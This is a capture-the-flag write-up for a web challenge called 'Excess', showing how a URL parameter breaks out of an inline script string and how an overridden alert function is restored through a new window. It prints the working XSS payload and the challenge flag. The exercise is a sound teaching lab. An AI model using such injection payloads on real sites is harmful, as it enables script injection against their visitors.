




# Excess

Category: `web`

Description: `This is some kind of reverse captcha to tell if the visitor is indeed a robot. Can you complete it?`

Service: `http://xss1.alieni.se:2999/`

Author: `avlidienbrunn`

Points: `51`

### What It Does

This is on XSS. We have to make an `alert(1)` pop-up and submit the URL to get the flag.



### How to Solve

The website provides a link to `http://xss1.alieni.se:2999/?xss=hello` but the link looks the same as the website. Here is the page source:

```html
<!DOCTYPE html>
<html lang="en">
  <head>
      <meta charset="UTF-8">
      <meta name="viewport" user-scalable="no" content="width=device-width, initial-scale=1">
      <link rel="stylesheet" href="/static/style.css" />
      <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
      <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>
      <link rel="stylesheet" href="https://netdna.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css" />
      <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/mdbootstrap/4.3.0/css/mdb.min.css" />
  </head>
  <body>
      <script src="/static/no_alert_for_you.js"></script><section class="login-info">
<div class="container">
  <script>var x ='hello'; var y = `hello`; var z = "hello";</script>
  <div class="row main">
       <div class="form-header header">
          <h1 class="text-center ">Excess Ess</h1>
        </div>
    <div class="main-content">
          <div class="row" id="container">
            <hr>
            <h4 class="text-center black-text">Make alert(1) pop <a href="/?xss=hello">here</a> and submit the working URL in the form below.</h4>
          </div>
          <form method="post" action="/submit">
          <div class="input-group ">
            <span class="input-group-addon"><span class="glyphicon glyphicon-paperclip" aria-hidden="true"></span></span>
            <input type="text" class="form-control text-center" name="url" placeholder="URL that pops alert(1) without user interaction">
          </div>
          
          <div class="form-group ">
          <center>
              <input type="submit" value="submit" name="login" class="btn btn-green header btn-lg btn-block login-button"/>
              </center>
          </div>

          </form>
          
          <div class="form-group" id="container">
          </div>
      
      </div>
    </div></body></html>
```

The GET parameter `xss` controls the variable declared in a script tag in the page.

```html
<script>var x ='hello'; var y = `hello`; var z = "hello";</script>
```

Browsing to `http://xss1.alieni.se:2999/?xss='; alert(1); '` shows a prompt instead.



The page source indicates that the script was successfully injected.

```html
<script>var x =''; alert(1); ''; var y = `'; alert(1); '`; var z = "'; alert(1); '";</script>
```

After looking closely at the page source, there is a javascript file defined before the payload.

```html
<script src="/static/no_alert_for_you.js"></script>
```

The file `no_alert_for_you.js` overrides the `window.alert` function to a prompt.

```javascript
/*

        If there is no alert,
            how can there be XSS?
                      /
                     /
            )            (
           /(   (\___/)  )\
          ( #)  \ ('')| ( #
           ||___c\  > '__||
           ||**** ),_/ **'|
     .__   |'* ___| |___*'|
      \_\  |' (    ~   ,)'|
       ((  |' /(.  '  .)\ |
        \\_|_/ <_ _____> \______________
         /   '-, \   / ,-'      ______  \
b'ger   /      (//   \\)     __/     /   \
                            './_____/

*/
window.alert = (x=>prompt("He confirm. He alert. But most of all he prompt."));
```

We can restore `window.alert` to the default alert function by using the alert function of another window. In this case, we are using the alert function of a new window.

_Note: You may need to enable pop-up._ 

```javascript
window.alert = window.open().alert;
```

Using `alert(1)` will create a pop-up in the new window. Thus, we will use `window.alert(1)` to create a pop-up in the main window instead. Here is the final payload:

```
'; window.alert = window.open().alert; window.alert(1); '
```

Browse to the following link to test our payload:

```
http://xss1.alieni.se:2999/?xss='; window.alert = window.open().alert; window.alert(1); '
```



Enter the link to get the flag.



**Flag: `sctf{cr0ss_s1te_n0scr1ptinG}`**